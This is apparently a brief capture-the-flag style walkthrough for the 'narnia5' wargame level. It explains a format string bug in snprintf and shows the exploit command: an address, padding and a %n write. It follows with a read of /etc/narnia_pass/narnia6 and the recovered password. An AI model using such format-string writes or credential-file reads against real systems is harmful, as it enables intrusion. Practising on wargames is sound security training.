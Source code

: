 snprintf, unsanitized user input provided as format string -> format string vulnerability. 
input format = [address][padding]%n
./narnia5 $(echo -ne "\xf0\xd4\xff\xff")$(printf '=%.0s' {1..496})%n
cat /etc/narnia_pass/narnia6
neezocaeng
